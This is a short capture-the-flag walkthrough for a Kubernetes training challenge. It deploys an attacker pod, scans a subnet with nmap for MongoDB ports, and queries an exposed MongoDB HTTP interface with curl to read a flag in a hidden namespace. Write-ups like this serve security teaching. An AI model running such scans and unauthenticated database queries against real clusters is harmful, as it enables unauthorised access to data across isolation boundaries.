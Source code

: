 # K8S Security: Namespace Bypass

## Goal

There is a hidden namespace which has a running mongodb instance.  The goal is to find the instance and find the flag.

1. Install an attacker container.

```
kubectl apply -f pentest_tools.yaml
```

2. Log into the attacker container.

```
kubectl get pods
```
```
kubectl exec -it challenge23-attacker-8bd985cb5-lk6dt -- bash
```

3.  Once in the container, get its ip.  I recently learned that the [100.64.0.0/10 space](https://en.wikipedia.org/wiki/IPv4_shared_address_space) is reserved. (!!)

```
ifconfig
```
4. Lets run a nmap scan.  We know from a previous challenge that mongodb is the database of choice. Lets look up its ports to find where mongo is.

```
nmap -p27017,28017 100.96.1.24/24
```

5. We see a host that has these ports open.  **What is port 28017?**

```
curl http://100.96.1.75:28017/listDatabases
```
```
curl http://100.96.1.75:28017/k8ctf/flag/
```

6. Exit

```
exit
```

7. Where is this mongodb running. This is the flag.

```
kubectl get namespaces
```
8. [Submit the flag.](https://devslop.ctfd.io/challenges#Challenge%2023-15)

🚨**DO NOT DELETE THE pentest tools deployment.**🚨
